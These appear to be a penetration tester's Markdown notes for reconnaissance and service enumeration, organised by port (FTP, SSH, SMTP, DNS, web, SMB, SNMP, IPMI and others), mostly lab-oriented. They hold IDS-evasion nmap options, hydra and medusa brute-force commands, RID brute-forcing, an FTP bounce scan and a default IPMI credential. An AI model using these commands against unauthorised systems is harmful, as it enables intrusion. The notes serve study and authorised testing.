

# Before you begin
- Assign our target to an environment variable
  - `export TARGET="facebook.com"`
  - `export TARGET="10.129.12.12"`


# Information gathering

## Open Source Inteligence OSINT
- github
- stack overflow
- [osintframework.com](https://osintframework.com/)
- :fa-github: [jivoi awesome osint](https://github.com/jivoi/awesome-osint)


## Enumeration [methodology](kb/htb/img/enum-method3.png)
- layers
  - internet presence
    - goal: The goal of this layer is to identify all possible target systems and interfaces that can be tested.
      - domains, subdomains, vhosts, netblocks, ip addresses, cloud instances, security measures
    - subdomain search using crt.sh
      - `curl -s https://crt.sh/\?q\=inlanefreight.com\&output\=json | jq .`
      - just subdomains
        - `curl -s https://crt.sh/\?q\=inlanefreight.com\&output\=json | jq . | grep name | cut -d":" -f2 | grep -v "CN=" | cut -d'"' -f2 | awk '{gsub(/\\n/,"\n");}1;' | sort -u >> subdomainlist.lst`
      - subdomains plus ip
        - `for i in $(cat subdomainlist.lst);do host $i | grep "has address" | grep inlanefreight.com | cut -d" " -f1,4 >> ip-addresses.lst;done`
      - shodan the ip address (requires api key)
        - `for i in $(cat ip-addresses.txt);do shodan host $i;done`
    - dns
      - records
        - a 
        - mx  mail servers
        - ns  name servers
        - txt verification keys for services plus dmarc, spf, dkim
      - `dig any inlanefreight.com`
    - cloud resources
      - google dorks
        - ` intext: <domain> inurl:amazonaws.com`
        - ` intext: <domain> inurl:blob.core.windows.com`
      - website source code 
        - check link tags for exposed cloud resources
      - [domain.glass](https://domain.glass)
      - [buckets.grayhatwarefare.com](https://buckets.grayhatwarfare.com/)
    - staff
      - job postings on linkedin can identify technologies such as programming languages, databases, firewalls
      - linkedin
    - gateway
      - goal: The goal is to understand what we are dealing with and what we have to watch out for.
      - firewalls, dmz, ips/ids, edr, proxies, NAC, network segmentation, vpn, cloudflare
    - accessible services
      - goal: This layer aims to understand the reason and functionality of the target system and gain the necessary knowledge to communicate with it and exploit it for our purposes effectively.
      - service types, functionality, configuration, port, versions
    - processes
      - goal: The goal here is to understand these factors and identify the dependencies between them.
      - PID, processed data, tasks, source, destination
    - privileges
      - goal: It is crucial to identify these and understand what is and is not possible with these privileges.
      - groups, users, permissions, restrictions, environment
    - os setup
      - goal: The goal here is to see how the administrators manage the systems and what sensitive internal information we can glean from them.
      - os type, patch level, network config, os environment, configuration files, sensitive private files
- [nmap](../tools/nmap.md)
  - common flags
    - -sV identify versions, service names and details
    - -sC default category
    - -sS SYN scan
    - -n disable dns resolution
    - --script-updatedb updates the nse database
    - --disable-arp-ping
    - --packet-trace	shows all packets
    - 🟠 -D RND:5 generate 5 random ip addresses as the source to bypass ids/ips
    - 🟠 -sA tcp ACK scan is much harder for FW/IDS/IPS to filter
    - 🟠 -S 10.10.10.1 scans from a specific source ip address
    - 🟠 --dns-server ns1,ns2
    - 🟠 --source-port 53
  - setting the source-port to 53 can bypass a lot of FW/IDP/IDS
  - initial scan
    - `sudo nmap -sC -sV -oA nmap/init $TARGET`
  - scan network range
    - `sudo nmap $TARGET/24 -sn -oA nmap/tnet`
  - All ports
    - look for ports not found in the init scan
    - `sudo nmap -sV -sC  -oA nmap/full -p- $TARGET`
  - banner grab
    - `sudo nmap -sV --script=banner $TARGET`
  - nse script
    - `sudo nmap -sV --script=/usr/share/nmap/scripts/ftp-anon.nse 10.129.202.5`
  - UPD scan
    - `sudo nmap 10.129.2.28 -F -sU`
  - Specific scans
    - located here `/usr/share/nmap/scripts/`
    - locate scan files
      - `locate -r '\.nse$'`
  - convert xml output to html
    - `xsltproc target.xml -o target.html`
  - sysn-scan from dns port
    - `sudo nmap 10.129.2.28 -p50000 -sS -Pn -n --disable-arp-ping --packet-trace --source-port 53`
    - connect using source-port
      - `ncat -nv --source-port 53 $TARGET 50000`
  - use proxychains
    - `nmap --proxies http://127.0.0.1:8080 $ip -pPORT -Pn -sC`
    - `proxychains nmap -sC -sV -oA nmap/init $TARGET`

- [masscan](https://github.com/robertdavidgraham/masscan) 

- snmp 
  - [snmpwalk](https://www.comparitech.com/net-admin/snmpwalk-examples-windows-linux/)
    - `snmpwalk -v1 -c public $TARGET`
  - [onesixtyone](https://github.com/trailofbits/onesixtyone)
    - common community strings are keep in the dict.txt file
    - `onesixtyone -c dict.txt $TARGET`


### service scans
  - Banner grabbing
      - `sudo nmap -sV --script=banner $TARGET`
      - `sudo nc -nv $TARGET <port>`
    - SMB
    - `sudo nmap --script smb-os-discovery.nse -p445 <target`
   
### host based enumeration
- #### 21/tcp  ftp
  - interact 
    - `ftp 10.129.14.136`
    - `ftp ftp://anonymous@10.129.202.5`
    - `nc -nv 10.129.14.136 21`
    - `telnet 10.129.14.136 21`
    - ssl
      - `openssl s_client -connect 10.129.14.136:21 -starttls ftp`
  - vsftpd
    - default configuration `/etc/vsftpd.conf`
      - `cat /etc/vsftpd.conf | grep -v "#"`
    - install
      - `sudo apt install vsftpd`
  - help `help`
  - verbosity, try `debug` or `trace` 
  - recursive list `ls -R`
  - list all files `ls -la` 
  - download a file `get Important\ Notes.txt` 
  - download all files `wget -m --no-passive ftp://anonymous:anonymous@$TARGET`
  - can we upload a file `put testupload.txt`
  - nmap 
    - ftp scripts `find / -type f -name ftp* 2>/dev/null | grep scripts`
    - `sudo nmap -sV -p21 -sC -A $TARGET --script-trace`
  - misconfigurations
    - `anonymous_enable=YES`	Allowing anonymous login?
    - `anon_upload_enable=YES`	Allowing anonymous to upload files?
    - `anon_mkdir_write_enable=YES`	Allowing anonymous to create new directories?
    - `no_anon_password=YES`	Do not ask anonymous for password?
    - `anon_root=/home/username/ftp`	Directory for anonymous.
    - `write_enable=YES`	Allow the usage of FTP commands: STOR`	 DELE`	 RNFR`	 RNTO`	 MKD`	 RMD`	 APPE`	 and SITE?
  - brute forcing
    - [medusa](https://github.com/jmk-foofus/medusa)
      - `medusa -h $ip -U users.list -P passwords.list -M ftp -n 2121`
  - [ftp bounce attack](https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/)
    - `nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2`

- #### 22/tcp  ssh
  - encrypted and direct connection
  - SSH-1 is vulnerable to man in the middle
  - connect using stolen certificate
    - `chmod 600 id_rsa`
    - `ssh -i ~/.ssh/custom_key_name SYSUSER@x.x.x.x`
  - authentication methods
    - password
    - public-key
      - stored on the server
        - `cat /etc/ssh/sshd_config  | grep -v "#" | sed -r '/^\s*$/d'`
      - misconfigurations
        - `PasswordAuthentication yes`	Allows password-based authentication.
        - `PermitEmptyPasswords yes`	Allows the use of empty passwords.
        - `PermitRootLogin yes`	Allows to log in as the root user.
        - `Protocol 1`	Uses an outdated version of encryption.
        - `X11Forwarding yes`	Allows X11 forwarding for GUI applications.
        - `AllowTcpForwarding yes`	Allows forwarding of TCP ports.
        - `PermitTunnel`	Allows tunneling.
        - `DebianBanner yes`	Displays a specific banner when logging in.
      - hardening guides
        - https://www.ssh-audit.com/hardening_guides.html
      - ssh-audit
        - `git clone https://github.com/jtesta/ssh-audit.git && cd ssh-audit`
        - `./ssh-audit.py $TARGET`
      - brute forcing
        - change authentication method first, then use hydra
          - `ssh -v victim@$TARGET`
          - `ssh -v victim@$TARGET -o PreferredAuthentications=password`
          - `hydra -l victim -P /usr/share/wordlists/rockyou.txt $TARGET ssh -t 4`
    - host-based
    - challenge-response
    - GSSAPI
  - brute force
    - `hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4`


- #### 23/tcp  telnet

- #### 25/tcp  smtp
  - [smtp error codes](https://serversmtp.com/smtp-error/)
  - newer smtp servers can use port 587
  - smtp is unencrypted, a server sometimes uses port 465 for encrypted connections
  - if you control dns, you can point the mail server at your ip address and setup a smtpd debugging server to intercept emails
    - `sudo python -m -smtpd -n -c DebuggingServer 0.0.0.0:25`
  - postfix
    - default configuration
      - `cat /etc/postfix/main.cf | grep -v "#" | sed -r "/^\s*$/d"`
    - open relay?
      - `mynetworks = 0.0.0.0/0`
  - process
    -  initiate connection `HELO mail.$TARGET`
       -  if ESMTP is enabled use `EHLO mail.$TARGET`
    -  help `HELP`
    -  set from address `MAIL FROM "test@$TARGET`
    -  set receipt      `RCPT TO "user@$TARGET`
    -  send data        `DATA`
       -  response code of 354 grants permission
       -  `Date: Wed, 30 July 2019 06:04:34`
       -  `From: test@$TARGET`
       -  `Subject: Click this`
       -  `To: user@$TARGET`
       -  `Body: text`
       -  terminate using `.`
  -  VRFY can be used to enumerate existing users
    - `telnet $TARGET 25`
    - `VRFY Jones`
      - not found 
      - `550 String does not match anything.`
      - `252 2.0.0 testuser` 
    - `VRFY Smith`
      - `250 Fred Smith <Smith@USC-ISIF.ARPA>`
  - work through a web proxy
    - `CONNECT 10.129.14.128:25 HTTP/1.0`
  - nmap
    - default
      - `sudo nmap $TARGET -sC -sV -p25`
    - open relay check
      - `sudo nmap $TARGET -p25 --script smtp-open-relay -v`
  - smtp-user-enum
    - `smtp-user-enum -M VRFY -U footprintingsmtp.lst -v -w 30 -m 10 -t $TARGET`
  - bash
    - `for user in $(cat footprintingsmtpa.lst); do echo VRFY $user | nc -nv -w 30 $TARGET 25; done`
  - misconfigurations
    - `mynetworks = 0.0.0.0/0` open relays


- #### 53/tcp  dns
  - enumerate all subdomains 
    - if you cannot get an axfr (zone transfer) you will need to brute force the domain using dnsenum
  - DNS Record,Description
    - A     Returns an IPv4 address of the requested domain as a result.
    - AAAA  Returns an IPv6 address of the requested domain.
    - MX    Returns the responsible mail servers as a result.
    - NS    Returns the DNS servers (nameservers) of the domain.
    - TXT   This record can contain various information. The all-rounder can be used, e.g., to validate the Google Search Console or validate SSL certificates. In addition, SPF and DMARC entries are set to validate mail traffic and protect it from spam.
    - CNAME This record serves as an alias. If the domain www.hackthebox.eu should point to the same IP, and we create an A record for one and a CNAME record for the other.
    - PTR   The PTR record works the other way around (reverse lookup). It converts IP addresses into valid domain names.
    - SOA   Provides information about the corresponding DNS zone and email address of the administrative contact.
  - zone transfers
    - get nameservers
      - `nslookup -type=NS zonetransfer.me`
        - `zonetransfer.me	nameserver = nsztm2.digi.ninja.`
      - `nslookup -type=NS inlanefreight.htb 10.129.42.19`
        - 10.129.42.19 is the target machine
    - test get any and AXFR
      - `nslookup -type=any -query=AXFR zonetransfer.me nsztm1.digi.ninja`
  - whois
    - `whois $TARGET`
    - `whois paypal.com `
    - specify the whois server
      - `whois paypal.com whois.registrarsafe.com`
    - windows 
      - part of sysinternals suite
  - nslookup
    - a records
      - `nslookup $TARGET`
    - specific records
      - `nslookup -type=any $TARGET` any|hinfo|mx|ns|ptr|soa
  - virustotal
    - search for a domain, then click through to relations to see further dns information
  - ssl certificates
    - [crt.sh](https://crt.sh/)
      - set env $TARGET
      - `curl -s "https://crt.sh/?q=${TARGET}&output=json" | jq -r '.[] | "\(.name_value)\n\(.common_name)"' | sort -u > "${TARGET}_crt.sh.txt"`
    - [censys.io certificate host search](https://search.censys.io/certificates)
    - ssl scan
      - `sslscan example.com`
  - theharvester
    - see tools/theharvester.md for the sources file
      - `cat sources.txt | while read source; do theHarvester -d "${TARGET}" -b $source -f "${source}_${TARGET}";done`
      - merge the results
        - `cat *.json | jq -r '.hosts[]' 2>/dev/null | cut -d':' -f 1 | sort -u > "${TARGET}_theHarvester.txt"` 
  - openssl
    - `export TARGET="facebook.com"`
    - `export PORT="443"`
    - `openssl s_client -ign_eof 2>/dev/null <<<$'HEAD / HTTP/1.0\r\n\r' -connect "${TARGET}:${PORT}"`
  - nmap
    - `sudo nmap -sSU -p 53 --script dns-nsec-enum --script-args dns-nsec-enum.domains=inlanefreight.htb 10.129.129.63`
  - if nsllok find a domain or hostname, add it to your hosts file
    - `sudo nano /etc/hosts`
  - dig
    - ptr record
      - `dig -x $TARGET`
    - soa
      - `dig soa <domain>`
    - using specified nameserver @
      - `dig ns $TARGET @1.1.1.1`
    - version query
      - `dig CH TXT version.bind $TARGET`
    - any
      - `dig any <targetdomain> @$TARGET`
    - axfr zone transfer
      - `dig axfr inlanefreight.htb @10.129.42.19`
    - dig list subdomains
      - `dig axfr inlanefreight.htb @10.129.42.19 |grep -v ';' | awk '{print $1}' >> sub.txt`
      - loop through getting any
        - `for sub in $(cat sub.txt); do dig ANY $sub @10.129.42.19; done `
    - reverse dns lookup
      - `dig -x 10.10.13.12`
  - amass
    - dns sub domain enumeration
    - `amass enum -d githubapp.com`
  - subdomain brute forcing
    - dig
      - `for sub in $(cat /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt);do dig $sub.inlanefreight.htb @10.129.169.104 | grep -v ';\|SOA' | sed -r '/^\s*$/d' | grep $sub | tee -a subdomains.txt;done`
    - dnsenum
      - every sub domain
      - `dnsenum --dnsserver ns.inlanefreight.htb --enum -p 0 -s 0 -f /usr/share/SecLists/Discovery/DNS/fierce-hostlist.txt dev.inlanefreight.htb` 
  - dnsrecon
    - `dnsrecon -d $TARGET -r 10.0.0.0/8`
  - gobuster
    - `gobuster dns -d <domain> -w /usr/share/SecLists/Discovery/DNS/namelist.txt -i`
    - using patterns
      - create patterns.txt containing our patterns
        - `lert-api-shv-{GOBUSTER}-sin6`
        - `atlas-pp-shv-{GOBUSTER}-sin6`
      - create numbered wordlist
        - `padtowidth=3; for i in 0 {1..10}; do printf "%0*d\n" $padtowidth $i; done >> numbers.txt`
      - run using wordlist
        - `gobuster dns -q -r "${NS}" -d "${TARGET}" -w numbers.txt -p ./patterns.txt -o "gobuster_${TARGET}.txt"`
  - [bind9 dns server](https://www.isc.org/bind/)
    - local configuration files
      - `named.conf.local`
      - `named.conf.options`
      - `named.conf.log`
    - local dns configuration
      - `cat /etc/bind/named.conf.local`
    - zone files
      - `cat /etc/bind/db.domain.com`
    - reverse name resolution zone files
      - `cat /etc/bind/db.10.129.14`
  - [most popular types of dns attacks](https://securitytrails.com/blog/most-popular-types-dns-attacks)
  - ffuf
    - `ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.inlanefreight.com/`

- #### 80,443/tcp  web
  - banner grabbing
    - `curl -Il http://$TARGET`
    - follow redirects, get header
      - `curl -iL http://stackabuse.com`
  - virtual hosts
    - `curl -s http://$target -H "Host: randomtarget.com"`
    - `ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://academy.htb:PORT/ -H 'Host: FUZZ.academy.htb'`
    - batch
      - create vhosts file that contains list of possible virtual hosts 
        - `echo -e "app\nblog\ndev-admin\n" >> vhosts`
      - `cat ./vhosts | while read vhost;do echo "\n********\nFUZZING: ${vhost}\n********";curl -s -I http://192.168.10.10 -H "HOST: ${vhost}.randomtarget.com" | grep "Content-Length: ";done`
        - `cat ./vhosts.txt | while read vhost;do echo "\n********\nFUZZING: ${vhost}\n********";curl http://10.129.116.202 -H "HOST: ${vhost}.inlanefreight.htb" ;done`
    - ffuf
      - `ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://$target -H "HOST: FUZZ.githubapp.com"`
      - `-fs 10918` filter size
  - [sitereport](https://sitereport.netcraft.com/)
    - `https://sitereport.netcraft.com/?url=http://www.google.com`
  - [wayback machine](http://web.archive.org/)
    - -previously used wordpress modules may not have been removed correctly so if you can find one you may be able to exploit it
    - waybackurls
      - used to inspect urls saved by the wayback machine
      - `go install github.com/tomnomnom/waybackurls@latest`
      - `waybackurls -dates https://facebook.com > waybackurls.txt`
  - whatweb scan for versions, frameworks, application
    - `whatweb $TARGET`
    - network 
      - `whatweb --no-errors $TARGET/24`
    - aggression
      - `whatweb -a3 https://www.facebook.com -v`
  - httpheaders
    - `curl -I "http://${TARGET}"`
  - web application firewalls
    - wafw00f
      - install
        - `sudo apt install wafw00f -y`
      - exec
        - `wafw00f -v https://www.tesla.com`
        - all wafs in place
          - `wafw00f -v -a https://www.tesla.com`
        - proxy
          - `-p`
        - input file
          - `-i`
  - Aquatone
    - automatic and visual inspection of websites across many hosts and is convenient for quickly gaining an overview of HTTP-based attack surfaces by scanning a list of configurable ports, visiting the website with a headless Chrome browser, and taking a screenshot
    - install
      - `sudo apt update`
      - `sudo apt install golang chromium-driver`
      - `go get github.com/michenriksen/aquatone`
      - `export PATH="$PATH":"$HOME/go/bin"`
    - help
      - `aquatone --help`
    - take screenshots
      - `cat facebook_aquatone.txt | aquatone -out ./aquatone -screenshot-timeout 1000`
      - will create a `aquatone_report.html` 
  - [gobuster](../tools/gobuster.md)
    - if you find a new directory, re-enumerate
    - dirs
      - `gobuster dir -u http://$TARGET/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
      - no certificate check
        - `gobuster dir -u http://$TARGET/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k`
  - ffuf
    - directories
      - `ffuf -w /usr/share/SecLists/Discovery/Web-Content/combined_directories.txt -u http://$ip:43030/FUZZ`
      - `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://faculty.academy.htb:STMPO/FUZZ -recursion -recursion-depth 1 -e .php,.phps,.php7 -fs 287 -mr "You don't have access!" -t 100`
    - page fuzzing
      - `ffuf -w /usr/share/SecLists/Discovery/Web-Content/combined_directories.txt -u http://$ip:PORT/blog/FUZZ.php`
    - discover files/folders recusively
      - `ffuf -recursion -recursion-depth 1 -u http://192.168.10.10/FUZZ -w /opt/useful/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt`
    - get parameters
      - `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php?FUZZ=key`
    - post parameters
      - `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded'`
    - file extensions
      - `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://academy.htb:36911/indexFUZZ -H 'Host:faculty.academy.htb'`
    - sensitive information disclosure
      - folders
        - `echo -e "wp-admin\nwp-content\nwp-includes" >> folders.txt`
      - words
        - cewl
        - `cewl -m5 --lowercase -w wordlist.txt http://192.168.10.10`
      - fuff
        - `ffuf -w ./folders.txt:FOLDERS,./wordlist.txt:WORDLIST,/usr/share/SecLists/Discovery/Web-Content/raft-large-extensions-lowercase.txt:EXTENSIONS -u http://192.168.10.10/FOLDERS/WORDLISTEXTENSIONS`
  - robots.txt
    - `curl -Il $TARGET/robots.txt`
  - brute force
    - see below
  - WordPress
    - todo


- #### 88/tcp  kerberos-sec
  - check server time is within 1 minute or change
    - `date --set="2 OCT 2006 18:00:00"`


- #### 110/tcp pop3


- #### 111/tcp,udp nfs network file system
  - 2049/tcp,udp nfs network file system server
  - config
    - `cat /etc/exports`
  - create (exportfs)
    - `echo '/mnt/nfs  10.129.14.0/24(sync,no_subtree_check)' >> /etc/exports`
    - `systemctl restart nfs-kernel-server`
    - `exportfs`
  - nmap
    - `sudo nmap $TARGET -p111,2049 -sV -sC`
    - `sudo nmap -sV -p111,2049 --script=nfs-showmount $TARGET -v`
    - nfs scripts
    - `sudo nmap --script nfs* $TARGET -sV -p111,2049`
  - show available shares
    - `showmount -e $TARGET`
  - mount share
    - `mkdir <dir>`
    - `sudo mount -t nfs $TARGET:/ ./<dir>/ -o nolock`
      - `sudo mount -t nfs 10.129.174.34:/TechSupport mntTechSupport -o nolock `
    - `cd <dir> && tree .`
    - list contents with usernames and groupnames
      - `ls -l <dir>`
    - list contents with uids and guids
      - `ls -n <dir>`
    - unmount
      - `sudo umount <dir>`
  - misconfigurations
    - `rw`	Read and write permissions.
    - `insecure`	Ports above 1024 will be used
    - `nohide`	If another file system was mounted below an exported directory`	 this directory is exported by its own exports entry.
    - `no_root_squash`	All files created by root are kept with the UID/GID 0.


- 135/tcp windows management instrumentation (WMI)
  - allows read and write access to almost all settings on Windows systems
  - nbtscan
    - `sudo nbtscan $TARGET`
  - impacket
    - `/usr/share/doc/python3-impacket/examples/wmiexec.py <username>:"<password>"@$TARGET "hostname"`

- #### 139/445 tcp smb
  - enables the client to communicate with other participants in the same network to access files or services shared with it on the network
  - defined by Access Control Lists (ACL) 
    - fine tuned via execute, read, and full access on idividual users or groups
  - shares ending with a ` $ sign like C$ or ADMINS$` mean they are hidden from view in windows
  - unix uses SAMBA / CIFS
    - samba uses ports 137,138,139
    - CIFS uses port 445 only
  - Network Basic Input/Output System (NetBIOS) API provided a blueprint for an application to connect and share data with other computers
  - samba
    - default configuration
      - `cat /etc/samba/smb.conf | grep -v "#\|\;" `
    - restart samba
      - `sudo systemctl restart smbd`
  - nmap
    - `sudo nmap $TARGET -sV -sC -p139,445`
    - `nmap --script safe -p 445 $TARGET`
  - brute force
    - `hydra -L user.list -P password.list smb://10.129.42.197`
      - invalid reply `[ERROR] invalid reply from target smb://10.129.42.197:445/` may indicate hydra cannot handle smbv3 replies, look for workaround
  - smbclient
    - list shares (no password, press enter, anonymous authentication)
      - `smbclient -L //$TARGET`
      - `smbclient --no-pass -L //$TARGET`
    - connect as user
      - `smbclient //$TARGET/<sharename>`
      - `smbclient //10.129.63.43/Users -U alex`
    - once connected
      - help `help`
      - execute commands by prefixing with !
        - `!cat <filename>`
    - download single file
      - `get <filename>`
    - download files
      - `smbclient //$TARGET`
        - `recurse ON`
        - `prompt OFF`
        - `mget *`
  - RPClient
    - attempt anon auth
      - `rpcclient -U "" $TARGET`
    - once connected
      - server information `srvinfo`
      - enum domains `enumdomains`
      - enum domain users `enumdomusers`
        - query user by rid `queryuser 0x3e9`
      - query group by rid `querygroup 0x201`
      - query domain information `querydominfo`
      - netshare enum all `netshareenumall`
      - netshare get detailed information `netsharegetinfo <sharename>`
      - brute forcing rids
        - `for i in $(seq 500 1100);do rpcclient -N -U "" $TARGET -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done`
  -  [impacket samrdump.py](https://github.com/fortra/impacket/blob/master/examples/samrdump.py)
     - `sudo impacket-samrdump $TARGET`
  - [smbmap](https://github.com/ShawnDEvans/smbmap)
    - `smbmap -H $TARGET`
    - authenticated
      - `smbmap -d <domain> -u <user> -p <password> -H $TARGET ` 
    - list files in share recursively
      - `smbmap -R <share> -H $TARGET`
    - download file
      - `smbmap -R <share> -H $TARGET -A Groups.xml -q`
      - if you cant find the file run `sudo updatedb && locate Groups.xml`
  - crackmapexec
    - `crackmapexec smb $TARGET --shares -u '' -p ''`
  - enum4linux-ng
    - install
      - `git clone https://github.com/cddmp/enum4linux-ng.git`
      - `cd enum4linux-ng && pip3 install -r requirements.txt`
    - use
      - `python3 /usr/share/enum4linux-ng/enum4linux-ng.py 10.129.202.5 -A`
  - [enum4linux](https://labs.portcullis.co.uk/tools/enum4linux/)
    - `enum4linux $TARGET`
  - brute force
    - hydra
      - `hydra -l HTB -P -vV $TARGET smb` 
  - misconfigurations
    - `browseable = yes`	Allow listing available shares in the current share?
    - `read only = no`	Forbid the creation and modification of files?
    - `writable = yes`	Allow users to create and modify files?
    - `guest ok = yes`	Allow connecting to the service without using a password?
    - `enable privileges = yes`	Honor privileges assigned to specific SID?
    - `create mask = 0777`	What permissions must be assigned to the newly created files?
    - `directory mask = 0777`	What permissions must be assigned to the newly created directories?
    - `logon script = script.sh`	What script needs to be executed on the user's login?
    - `magic script = script.sh`	Which script should be executed when the script gets closed?
    - `magic output = script.out`	Where the output of the magic script needs to be stored?

  - windows
    - `net use n: \\192.168.220.129\Finance`
    - `net use n: \\192.168.220.129\Finance /user:plaintext Password123`


- #### 143/tcp imap/pop3
  - IMAP allows online management of emails directly on the server and supports folder structures
  - commands 
    - need to prepended with a tag such as ?
    - `? LOGIN username password`	User's login.
    - `? LIST "" *`	Lists all directories.
    - `? CREATE "INBOX"`	Creates a mailbox with a specified name.
    - `? DELETE "INBOX"`	Deletes a mailbox.
    - `? RENAME "ToRead" "Important"`	Renames a mailbox.
    - `? LSUB "" *`	Returns a subset of names from the set of names that the User has declared as being active or subscribed.
    - `? SELECT INBOX`	Selects a mailbox so that messages in the mailbox can be accessed.
    - `? UNSELECT INBOX`	Exits the selected mailbox.
    - `? FETCH &lt;ID&gt; all`	Retrieves data associated with a message in the mailbox.
    - `? CLOSE`	Removes all messages with the Deleted flag set.
    - `? LOGOUT`	Closes the connection with the IMAP server.
    - log into account and get email body
      - `? login robin robin`
      - `? list "" *`
      - `? select "DEV.DEPARTMENT.INT"`
      - `? status DEV.DEPARTMENT.INT`
      - `? fetch 1 all`     get the envelope details
      - `? fetch 1 body[1]` body array contains 1 plaintext, 2 html
  - pop3 only provides listing, retrieving, and deleting emails as functions at the email server
    - commands
      - `USER username`	Identifies the user.
      - `PASS password`	Authentication of the user using its password.
      - `STAT`	Requests the number of saved emails from the server.
      - `LIST`	Requests from the server the number and size of all emails.
      - `RETR id`	Requests the server to deliver the requested email by ID.
      - `DELE id`	Requests the server to delete the requested email by ID.
      - `CAPA`	Requests the server to display the server capabilities.
      - `RSET`	Requests the server to reset the transmitted information.
      - `QUIT`	Closes the connection with the POP3 server.
  - misconfigurations
    - `auth_debug`	Enables all authentication debug logging.
    - `auth_debug_passwords`	This setting adjusts log verbosity, the submitted passwords, and the scheme gets logged.
    - `auth_verbose`	Logs unsuccessful authentication attempts and their reasons.
    - `auth_verbose_passwords`	Passwords used for authentication are logged and can also be truncated.
    - `auth_anonymous_username`	This specifies the username to be used when logging in with the ANONYMOUS SASL mechanism.
  - nmap
    - `sudo nmap $TARGET -sC -sV -p110,143,993,995`
  - curl
    - `curl -k -v 'imaps://$TARGET' --user user:p4ssw0rd`
  - openssl
    - pop3
      - `openssl s_client -connect $TARGET:pop3s`
    - imap
      - `openssl s_client -connect $TARGET:imaps`


- #### 161/162 UPD snmp
  - 161 control
  - 162 upd traps
  - monitors network devices
  - Management Information Base (MIB) is a queryable text file that displays all queryable objects
    - Object Identifier (OID) provides information about the type, access rights, and a description of the respective object
  - snmpv1 no built in authentication
  - snmpv2 uses community string to provide security but is passed in plain text
  - snmpv3 uses authentication and transmission encryption via pre-shared key
  - snmp daemon config
    - `cat /etc/snmp/snmpd.conf | grep -v "#" | sed -r '/^\s*$/d'`
  - snmpwalk
    - `snmpwalk -v2c -c public $TARGET >> snmpwalk.txt`
    - `cat snmpwalk.txt | grep "STRING"`
  - onesixtyone
    - `onesixtyone 192.168.4.0/24 public`
    - `onesixtyone -c /usr/share/SecLists/Discovery/SNMP/snmp.txt 10.129.14.128`
      - example
        - ```
          onesixtyone -c /usr/share/SecLists/Discovery/SNMP/snmp.txt 10.129.104.152   
          Scanning 1 hosts, 3219 communities
          10.129.104.152 [backup] Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
          ```
        - backup
  - braa
    - `braa public@$TARGET:161:.1.3.6.*`
  - misconfigurations
    - `rwuser noauth`	Provides access to the full OID tree without authentication.
    - `rwcommunity &lt;community string&gt; &lt;IPv4 address&gt;`	Provides access to the full OID tree regardless of where the requests were sent from.
    - `rwcommunity6 &lt;community string&gt; &lt;IPv6 address&gt;`	Same access as with rwcommunity with the difference of using IPv6.


- #### 389/tcp ldap


  
- #### 512/513/514 r-services
  - unix to unix prior to ssh
  - uses r-commands
    - `rcp` remote copy
    - `rexec` remote execution
    - `rlogin` remote login
      - `rlogin $TARGET -l htb-student`
    - `rsh` remote shell
    - `rstat`
    - `ruptime`
    - `rwho`  remote who
    - `rusers`
      - `rusers -al $TARGET`
  - trusts these files
    - `/etc/hosts.equiv`    global configuration
    - `.rhosts`   per user
  - nmap
    - `sudo nmap -sV -p 512,513,514 $TARGET`


- #### 587/tcp newer smtp servers

- #### 623/udp Intelligent Platform Management Interface (IPMI)
  - Baseboard Management Controllers (BMCs) are typically implemented as arm systems running linux and is directly connected to the motherboard
  - if we can access can reboot, power off, reinstall the host os
  - nmap
    - ` sudo nmap -sU --script ipmi-version -p 623 $TARGET`
  - metasploit
    - `IPMI Information Discovery (auxiliary/scanner/ipmi/ipmi_version)`
  - default passwords
    - Dell iDRAC  `root:calvin`
    - HP iLO      `Administrator:{randomized 8-character string consisting of numbers and uppercase letters}`
